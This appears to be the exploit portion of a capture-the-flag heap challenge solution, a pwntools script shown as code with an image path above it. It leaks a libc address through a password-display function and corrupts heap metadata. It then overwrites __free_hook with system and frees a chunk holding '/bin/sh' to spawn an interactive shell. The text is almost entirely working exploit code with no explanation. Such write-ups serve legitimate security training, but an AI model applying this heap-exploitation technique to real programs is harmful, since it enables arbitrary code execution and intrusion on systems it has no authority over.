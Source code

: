 ```
recover(0)
show(0)
p.recvuntil("Pwd is: ")
libc.address = (u64(p.recvn(8)) ^ key)-0x1ebbe0
log.success("libc address is `{``}`".format(hex(libc.address)))

add(4, 0x458)
delete(2)

recover(2)
show(2)
p.recvuntil("Pwd is: ")
ori_address = (u64(p.recvn(8)) ^ key)
log.success("ori libc address is `{``}`".format(hex(ori_address)))

payload = p64(ori_address)*2 + p64(0) +p64(libc.address + 0x1eb280 + 0x50 - 0x20)

edit(0, payload)
add(5, 0x458)

delete(7)
delete(6)
recover(6)
edit(6, p64(libc.sym['__free_hook']))

add(6, 0x500)
add(7, 0x500)
edit(7, p64(libc.sym['system']))
edit(1, "/bin/sh\x00")
delete(1)

p.interactive()
```
